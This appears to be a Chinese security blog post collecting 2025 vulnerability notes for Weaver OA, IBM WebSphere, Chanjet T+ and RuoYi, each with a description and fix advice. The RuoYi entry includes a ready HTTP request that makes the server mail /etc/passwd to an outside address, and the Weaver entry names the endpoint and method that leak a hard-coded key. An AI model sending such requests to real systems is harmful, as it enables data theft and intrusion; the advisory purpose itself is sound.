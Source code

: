 #  【2025护网漏洞POC速存】吃苕皮喝挪瓦，HW轻松拿捏  
安全透视镜  网络安全透视镜   2025-07-05 03:27  
  
# 文章来源互联网收集整理，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS51gqsJwIM82Y5RTicXUygDUxQ76EiavrIibm8L0BUzdF6veUR4dQOKJn2iaEFQlNeq0PIPSFXTibx0OZw/640?wx_fmt=png&from=appmsg "")  
  
  
  
漏洞名称：泛微 OA 前台登录绕过+后台 RCE  
  
漏洞描述：  
  
/dwr/call 接口密钥泄露：攻击者通过调用接口/dwr/call/plaincall/，  
  
指定 WorkflowSubwfSetUtil.LoadTemplateProp 方法，可读取系统硬编码的 AES密钥  
  
修复建议：  
  
升级至安全版本，官方修复版本：≥ v10.57.2  
  
  
漏洞名称：IBM WebSphere Application Server 远程代码执行漏洞  
  
漏洞描述：  
  
IBM WebSphere Application Server 对反序列化操作的安全控制机制存在严重缺陷。当系统处理远程客户端传入的序列化数据时，未能实施有效的对象类型校验和来源认证，使得攻击者能够构造包含恶意调用链的特制序列化对象。这些对象在反序列化过程中会触发 Java 反射机制，通过精心设计的对象链最终执行 Runtime.exec()等敏感系统调用，导致攻击者能够以 WebSphere服务账户权限在目标服务器上执行任意命令。  
  
  
修复建议  
：  
  
尽快安装补丁进行防护。  
  
下载链接：https://www.ibm.com/support/pages/node/7237824  
  
  
漏洞名称：  
用友 畅捷通T+ 信息泄露  
  
漏洞描述：  
  
getdecallusers 存在信息泄露漏洞，可获取系统用户个人信息。  
  
修复建议：  
  
请及时联系官方售后或客服升级至最新版本，官网地址：https://www.chanjet.com/  
  
  
漏洞名称：  
RuoYi 任意文件读取漏洞  
  
漏洞描述  
：  
  
/demo/mail/sendMessageWithAttachment和 /sendMessageWithAttachments 接口未进行身份验证，攻击者可指定任意文件路径作为附件发送邮件，导致服务器敏感信息泄露  
。  
```
GET /demo/mail/sendMessageWithAttachment?to=test111@163.com&subject=Test-Mail&text=This%20is%20a%20test%20message&filePath=/etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) Firefox/123.0
```  
  